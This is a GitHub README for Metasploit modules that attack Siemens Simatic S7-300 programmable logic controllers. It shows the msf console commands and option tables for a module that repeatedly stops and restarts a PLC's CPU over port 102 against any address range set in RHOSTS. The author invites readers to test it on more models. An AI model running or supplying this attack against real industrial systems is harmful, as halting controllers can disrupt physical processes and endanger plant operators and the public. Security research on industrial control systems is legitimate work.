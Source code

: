 s7-metasploit-modules
=====================

Siemens Simatic S7 Metasploit Modules

The Siemens Simatic S7 modules are fairly straightforward. Set the the IP address(s) in RHOSTS
and the cycle to the number of times you would like to start and stop the CPU. 

For example, if you only want to stop and start the CPU once use this command in metasploit.

	set CYCLES 1

msf  auxiliary(simatic_s7_300_command) > show options

Module options (auxiliary/admin/scada/simatic_s7_300_command):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CYCLES   10               yes       Set the amount of CPU STOP/RUN cycles.
   MODE     false            no        Set true to put the CPU back into RUN mode.
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    102              yes       The target port
   THREADS  1                yes       The number of concurrent threads

msf  auxiliary(simatic_s7_300_command) > set CYCLES 1
CYCLES => 1
msf  auxiliary(simatic_s7_300_command) > show options

Module options (auxiliary/admin/scada/simatic_s7_300_command):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CYCLES   1                yes       Set the amount of CPU STOP/RUN cycles.
   MODE     false            no        Set true to put the CPU back into RUN mode.
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    102              yes       The target port
   THREADS  1                yes       The number of concurrent threads

I'm currently in the process of updating the repo and adding other modules. Please test
on different S7-300 models and let me know which ones are supported so I can add a list. 

-Dillon

Please report any issues to dillon.beresford@gmail.com

